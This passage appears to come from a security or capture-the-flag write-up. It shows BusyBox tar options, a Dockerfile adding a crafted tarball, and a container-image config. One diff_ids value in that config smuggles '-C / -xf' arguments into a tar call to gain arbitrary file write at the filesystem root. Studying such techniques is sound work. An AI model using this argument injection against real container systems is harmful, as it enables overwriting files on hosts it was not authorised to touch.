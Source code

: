 ```
/ # tar -h
BusyBox v1.36.1 (2024-06-10 07:11:47 UTC) multi-call binary.

Usage: tar c|x|t [-ZzJjahmvokO] [-f TARFILE] [-C DIR] [-T FILE] [-X FILE] [LONGOPT]... [FILE]...

Create, extract, or list files from a tar file

	c	Create
	x	Extract
	t	List
	-f FILE	Name of TARFILE ('-' for stdin/out)
	-C DIR	Change to DIR before operation
	-v	Verbose
	-O	Extract to stdout
	-m	Don't restore mtime
	-o	Don't restore user:group
	-k	Don't replace existing files
	-Z	(De)compress using compress
	-z	(De)compress using gzip
	-J	(De)compress using xz
	-j	(De)compress using bzip2
	--lzma	(De)compress using lzma
	-a	(De)compress based on extension
	-h	Follow symlinks
	-T FILE	File with names to include
	-X FILE	File with glob patterns to exclude
	--exclude PATTERN	Glob pattern to exclude
	--overwrite		Replace existing files
	--strip-components NUM	NUM of leading components to strip
	--no-recursion		Don't descend in directories
	--numeric-owner		Use numeric user:group
	--no-same-permissions	Don't restore access permissions
```

After some thinking I've decided to put another crafted tarball in my image and extract it later. This way I would get arbitrary file write primitive. Let's add it to Dockerfile:

```Dockerfile
FROM alpine:latest

ADD vzlomik.tar /vzlomik.tar
```

Therefore I've changed the injection. I wanted to unpack my tarball in the filesystem root, so `.rootfs.diff_ids` became:

```json
"rootfs": {
  "type": "layers",
  "diff_ids": [
    "sha256:75654b8eeebd3beae97271a102f57cdeb794cc91e442648544963a7e951e9558",
    "sha256:7ed7aa814b865edc71b766dcf2d45f0a47077c5752984b9f3a7beb1bbbab097e",
    "sha256:.overlay/vzlomik.tar\\x20-C\\x20/\\x20-xf\\x20.overlay/vzlomik"
  ]
}
```
